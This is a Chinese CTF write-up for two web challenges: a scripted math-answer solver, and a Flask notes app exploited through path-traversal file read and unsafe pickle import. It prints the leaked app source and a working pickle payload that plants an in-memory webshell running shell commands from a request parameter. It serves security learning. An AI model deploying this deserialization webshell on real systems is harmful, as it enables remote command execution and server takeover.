

## <font style="color:#117CEE;">4</font><font style="color:#000000;">04</font>
看一下 js，找到下一步，访问 /f12g.php。


抓个包看看，找到一串 base64，解一下。


访问 /ca.php。


用 requests 库写个脚本交互即可，要开启 session。



```python
import requests
import re
import math
session = requests.Session()
# 发送GET请求获取网页内容
url = "http://challenge.yuanloo.com:43736/ca.php"  # 替换为实际的URL
response = session.get(url)
# 检查响应状态码
if response.status_code == 200:
    # 获取网页内容
    html_content = response.text

    # 使用正则表达式提取数学表达式
    # 假设表达式是以连续的格式给出的
    expressions = re.findall(r'\$(temp\d+)\s*=\s*([^;]+);', html_content)

    # 初始化变量
    results = {}

    # 遍历所有提取的表达式
    for temp_var, expr in expressions:
        # 替换表达式中的函数名称为实际的math库函数
        print(expr)
        expr = expr.replace('log', 'math.log').replace('sqrt', 'math.sqrt').replace('sin', 'math.sin').replace('cos', 'math.cos').replace('pow', 'pow').replace('tan', 'math.tan').replace('exp', 'math.exp').replace('$','')
        if "temp1" in expr:
            expr = expr.replace("temp1", str(results["temp1"])).replace("temp2", str(results["temp2"]))
        # 计算每个表达式的值
        try:
            result = eval(expr)
            results[temp_var] = round(result, 2)
        except Exception as e:
            print(f"Error evaluating expression '{expr}': {e}")

    # 打印结果
    for temp_var, result in results.items():
        print(f"{temp_var}: {result}")

    # 假设最终答案是 $temp4，你需要根据实际情况调整
    answer = results["temp3"]+results["temp4"]
    print(answer)
    user_answer = answer

    # 发送POST请求以user_answer参数返回答案
    post_url = "http://challenge.yuanloo.com:43736/ca.php"  # 替换为实际的提交URL
    payload = {
        "user_answer": str(user_answer)
    }
    post_response = session.post(post_url, data=payload)

    # 检查POST响应状态码
    if post_response.status_code == 200:
        print("Answer submitted successfully.")
        print(post_response.text)
    else:
        print("Failed to submit the answer.")
else:
    print("Failed to retrieve the webpage")
```


## <font style="color:#117CEE;">P</font><font style="color:#000000;">Read</font>


先导出笔记看看，是个 pkl 文件，抓包看看，尝试修改路径，发现可以任意文件读取。


尝试读取源码，成功。


```python
import os
import pickle
from flask import Flask, render_template, request, redirect, url_for, flash, jsonify, send_file
from datetime import datetime
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.secret_key = 'MySe3re7K6y'
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 16 * 1024 * 1024  # 16MB max-limit

# 确保上传文件夹存在
os.makedirs(app.config['UPLOAD_FOLDER'], exist_ok=True)


class Note:
    def __init__(self, title, content):
        self.id = datetime.now().strftime('%Y%m%d%H%M%S')
        self.title = title
        self.content = content
        self.created_at = datetime.now()


class NoteManager:
    def __init__(self):
        self.notes = []
        self.file_name = "notes.pkl"
        self.file_path = "./notes/"
        self.file = os.path.join(self.file_path, self.file_name)
        self.load_notes()

    def add_note(self, title, content):
        note = Note(title, content)
        self.notes.append(note)
        self.save_notes()
        return note

    def get_note(self, note_id):
        for note in self.notes:
            if note.id == note_id:
                return note
        return None

    def update_note(self, note_id, title, content):
        note = self.get_note(note_id)
        if note:
            note.title = title
            note.content = content
            self.save_notes()
            return True
        return False

    def delete_note(self, note_id):
        self.notes = [note for note in self.notes if note.id != note_id]
        self.save_notes()

    def save_notes(self):

        with open(self.file, 'wb') as f:
            pickle.dump(self.notes, f)

    def load_notes(self):
        if os.path.exists(self.file):
            with open(self.file, 'rb') as f:
                self.notes = pickle.load(f)

    def import_notes(self, file_path):
        try:
            with open(file_path, 'rb') as f:
                imported_notes = pickle.load(f)
            self.notes.extend(imported_notes)
            self.save_notes()
            return len(imported_notes)
        except Exception as e:
            print(f"Import error: {e}")
            return 0


note_manager = NoteManager()


@app.route('/')
def index():
    return render_template('index.html', notes=note_manager.notes)


@app.route('/add', methods=['GET', 'POST'])
def add_note():
    if request.method == 'POST':
        title = request.form['title']
        content = request.form['content']
        note_manager.add_note(title, content)
        flash('笔记已添加成功', 'success')
        return redirect(url_for('index'))
    return render_template('add_note.html')


@app.route('/edit/<note_id>', methods=['GET', 'POST'])
def edit_note(note_id):
    note = note_manager.get_note(note_id)
    if request.method == 'POST':
        title = request.form['title']
        content = request.form['content']
        if note_manager.update_note(note_id, title, content):
            flash('笔记已更新成功', 'success')
            return redirect(url_for('index'))
        flash('更新笔记失败', 'error')
    return render_template('edit_note.html', note=note)


@app.route('/delete/<note_id>')
def delete_note(note_id):
    note_manager.delete_note(note_id)
    flash('笔记已删除成功', 'success')
    return redirect(url_for('index'))


@app.route('/export_notes', methods=['GET'])
def export_notes():
    filename = request.args.get("filename")
    file_path = os.path.join(note_manager.file_path, filename)
    return send_file(file_path, as_attachment=True, download_name="notes_export.pkl")


@app.route('/import_notes', methods=['POST'])
def import_notes():
    if 'file' not in request.files:
        flash('没有文件', 'error')
        return redirect(url_for('index'))
    
    file = request.files['file']
    if file.filename == '':
        flash('没有选择文件', 'error')
        return redirect(url_for('index'))
    if file:
        filename = secure_filename(file.filename)
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)
        imported_count = note_manager.import_notes(file_path)
        os.remove(file_path)  # 删除临时文件
        if imported_count > 0:
            flash(f'成功导入 {imported_count} 条笔记', 'success')
        else:
            flash('导入失败，请检查文件格式', 'error')
        return redirect(url_for('index'))


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

添加笔记没有做任何过滤，可以直接打 flask 内存马。

```python
import pickle
import pickletools
import os
class Shell():
    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('aura')).read())",))
shell = Shell()
data = pickle.dumps(shell)
with open("data.pkl","wb") as f:
    f.write(data)


```


